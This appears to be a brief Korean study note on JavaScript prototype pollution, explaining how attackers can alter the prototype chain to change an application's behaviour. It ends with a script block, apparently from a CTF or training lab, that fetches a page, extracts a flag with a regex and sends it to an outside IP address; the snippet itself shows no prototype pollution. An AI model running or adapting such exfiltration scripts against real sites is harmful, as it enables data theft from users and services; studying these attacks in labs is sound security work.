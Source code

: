 [[JS]]

JavaScript 객체 프로토타입 체인에서 발생할 수 있는 보안 취약점
공격자가 임의적으로 웹 애플리케이션의 JavaScript 객체 프로토타입을 수정할 수 있게 되면 발생

# 발생 원인
JavaScript에서 객체는 프로토타입을 기반으로 상속을 수행
객체의 프로퍼티나 메서드를 찾을 때 해당 객체에 없으면 프로토타입 체인을 따라 부모 객체로 검색하게 되는데, 
공격자가 이러한 프로토타입 체인을 조작하여 애플리케이션의 기본 동작을 변경할 수 있게 함

```js
<script> fetch('http://2023whs.arang.kr:9200/prototype_pollution.php').then(response => response.text()).then(data => { 
	let flag = data.match(/flag{.*?}/)[0]; 
	fetch('http://211.250.216.249:7444/receive_flag?flag=' + flag); 
}); 
</script>
```